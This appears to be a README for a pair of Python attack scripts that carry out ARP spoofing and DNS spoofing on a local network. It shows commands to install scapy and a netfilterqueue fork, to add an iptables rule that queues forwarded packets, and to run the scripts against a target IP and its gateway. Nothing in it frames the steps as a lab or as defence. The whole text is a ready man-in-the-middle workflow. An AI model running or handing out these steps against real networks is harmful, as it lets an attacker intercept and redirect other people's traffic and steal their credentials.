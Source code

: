 # Usage ARPSPOOF:
```bash
$python spoofi.py -t 10.0.2.4 -g 10.0.2.1
```
- `t` ***Target***
- `g` ***Gateway***


---------------------------------------------------------------------------------------------------------

# Usage DNSPOOF

* Install scupy
```bash
apt-get install tcpdump graphviz imagemagick python-gnuplot python-crypto python-pyx
pip install scapy
```
* Install netfilterqueue
```bash
apt-get install build-essential python-dev libnetfilter-queue-dev
git clone https://github.com/nu11secur1ty/python-netfilterqueue
cd python-netfilterqueue
python setup.py install
```
* Create queue
```bash
iptables -I FORWARD -j NFQUEUE --queue-num 0
```
* Run arp spoofing script
```bash
python spoofi.py -t target_ip -g gateway_ip
```
* Run dnspoofi script
```bash
python dnspoofi
```
Run script with --help to get help
```bash
python dnspoofi.py --help
```
